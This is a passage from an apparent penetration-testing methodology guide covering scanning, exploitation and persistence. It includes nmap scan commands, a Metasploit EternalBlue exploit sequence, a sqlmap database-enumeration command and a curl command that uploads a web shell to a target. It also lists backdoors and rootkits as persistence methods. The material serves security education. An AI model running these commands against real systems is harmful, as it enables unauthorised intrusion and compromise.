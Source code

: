 # Port scanning
nmap -sS -sV -O target.com

# Service enumeration
nmap -sC -sV -p- target.com

# UDP scanning
nmap -sU --top-ports 1000 target.com
\`\`\`

#### Vulnerability Scanning
- **Automated Tools**: Nessus, OpenVAS, Qualys
- **Manual Testing**: Custom scripts and techniques
- **Web Application Scanning**: Burp Suite, OWASP ZAP
- **Database Scanning**: SQLMap, NoSQLMap

### 3. Gaining Access

#### Exploitation Techniques
- **Network Exploits**: Buffer overflows, protocol vulnerabilities
- **Web Application Exploits**: SQL injection, XSS, CSRF
- **Social Engineering**: Phishing, pretexting, physical access
- **Password Attacks**: Brute force, dictionary attacks, credential stuffing

#### Common Exploitation Tools
\`\`\`bash
# Metasploit Framework
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
exploit

# SQL Injection with SQLMap
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Web shell upload
curl -X POST -F "file=@shell.php" http://target.com/upload.php
\`\`\`

### 4. Maintaining Access

#### Persistence Mechanisms
- **Backdoors**: Hidden access points for future entry
- **Rootkits**: Stealth tools to maintain system access
- **Scheduled Tasks**: Automated execution of malicious code
- **Registry Modifications**: Windows persistence techniques
